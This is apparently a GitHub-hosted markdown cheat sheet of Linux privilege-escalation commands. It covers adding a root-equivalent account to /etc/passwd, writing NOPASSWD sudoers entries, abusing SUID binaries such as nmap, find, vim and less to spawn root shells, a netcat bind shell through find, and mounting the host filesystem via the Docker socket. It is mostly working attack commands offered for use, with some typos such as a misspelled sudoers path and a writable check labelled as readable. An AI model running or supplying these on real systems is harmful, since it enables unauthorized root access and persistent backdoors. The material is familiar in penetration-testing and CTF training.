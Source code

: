 # Linux Privilege Escalation


#### Check Sudo Access  
`sudo -l`

#### Check for writable "system" files or paths?
```
/etc/passwd
/etc/shadow
/etc/crontab
```
## Modifying /etc/password | /etc/shadow
#### Creating password hashes for /etc/passwd  or /etc/shadow
 
  ```
  openssl passwd -6 -salt xyz  yourpass
  -1 MD5
  -5 SHA256
  -6 SHA512
  ```  
#### Sample root2:testing user for /etc/passwd
  ```
  root2:KWi2XW05LmkMg:0:0:root:/root:/bin/bash
  ```
#### Adding user to suoders file
```
user     ALL=(ALL:ALL) NOPASSWD:ALL
``` 
## SUID Based Privilge Escalation  
#### Locating SUIDS
`find . -perm /4000 2>/dev/null`  
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  

#### Exploiting SUIDs

nmap 2.02 - 5.21  
`nmap -V #version check`  

```
nmap --interactive  
nmap> !sh
```

find  
`find <file> -exec <CMD> \;`  
Escalation to root shell  
`find . -exec /bin/sh -p \; -quit`  
`find somefile -exec netcat -lvp 5555 -e /bin/sh \;`  
`find somefile -exec echo "lowprivuser ALL=(ALL) NOPASSWD:ALL" > /etc/sodoers \;`  
Vim  
```
vim /etc/shadow  
vim  
# Press ESC key  
:set shell=/bin/sh  
:shell
```

bash  
`bash -p`

less  
```
less /etc/passwd  
!/bin/sh
```
**Command reference for privilege escalation using SUIDS and SUDO**  
https://gtfobins.github.io/


## Finding World Readable Files
`find / -perm -o+w `  
**to limit to a specific file type:**    
`find / -perm -o+w -type d` #directory  
`find / -perm -o+w -type f` #file  
`find / -perm -o+w -type l` #link  

## Processes running as root
```
ps aux | grep root
```
[pspy](https://github.com/DominicBreuker/pspy) may also be used to watch system processes interaction in realtime (including command lines).

## Kernel Exploits  
https://github.com/lucyoa/kernel-exploits

## Docker
If the docker socket is mounted from inside the dock container, you can eleveate to root.

The sock file is generally located in `/run/docker.sock`  or you can search `find / -name docker.sock 2>/dev/null`  

`docker run -it -v /:/host/ <available container images> chroot /host/ bash`  


